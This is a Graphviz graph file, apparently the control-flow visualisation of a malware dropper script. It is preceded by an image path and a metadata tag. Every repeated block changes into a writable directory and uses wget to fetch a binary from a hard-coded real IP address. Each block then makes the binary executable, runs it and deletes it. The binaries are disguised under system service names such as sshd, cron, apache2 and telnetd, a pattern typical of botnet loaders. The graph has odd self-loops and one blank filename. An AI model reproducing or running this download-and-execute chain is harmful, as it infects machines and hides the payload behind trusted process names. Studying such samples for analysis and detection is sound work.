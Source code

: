 digraph {
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 10 [label="||,"];
10 [label="wget http://31.220.43.153/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 28 [label="||,"];
28 [label="wget http://31.220.43.153/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 46 [label="||,"];
46 [label="wget http://31.220.43.153/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 64 [label="||,"];
64 [label="wget http://31.220.43.153/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 82 [label="||,"];
82 [label="wget http://31.220.43.153/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 100 [label="||,"];
100 [label="wget http://31.220.43.153/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 118 [label="||,"];
118 [label="wget http://31.220.43.153/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 136 [label="||,"];
136 [label="wget http://31.220.43.153/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 154 [label="||,"];
154 [label="wget http://31.220.43.153/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 172 [label="||,"];
172 [label="wget http://31.220.43.153/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 190 [label="||,"];
190 [label="wget http://31.220.43.153/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 208 [label="||,"];
208 [label="wget http://31.220.43.153/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 226 [label="||,"];
226 [label="wget http://31.220.43.153/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 232 [label=";,"];
232 [label="rm -rf telnetd "];
232 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 244 [label="||,"];
244 [label="wget http://31.220.43.153/[cpu] "];
244 -> 246 [label=";,"];
246 [label="chmod +x [cpu] "];
246 -> 248 [label=";,"];
248 [label="./[cpu] "];
248 -> 250 [label=";,"];
250 [label="rm -rf [cpu] "];
250 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 262 [label="||,"];
262 [label="wget http://31.220.43.153/LOLKYS "];
262 -> 264 [label=";,"];
264 [label="chmod +x LOLKYS "];
264 -> 266 [label=";,"];
266 [label="./LOLKYS "];
266 -> 268 [label=";,"];
268 [label="rm -rf LOLKYS "];
268 -> 270 [label=";,"];
270 [label="cd /tmp "];
270 -> 270
272 [label="cd /var/run "];
272 -> 274 [label="||,"];
274 [label="cd /mnt "];
274 -> 276 [label="||,"];
276 [label="cd /root "];
276 -> 278 [label="||,"];
278 [label="cd / "];
278 -> 280 [label="||,"];
280 [label="wget http://31.220.43.153/Juuuo "];
280 -> 282 [label=";,"];
282 [label="chmod +x Juuuo "];
282 -> 284 [label=";,"];
284 [label="./Juuuo "];
284 -> 285 [label=";,"];
}
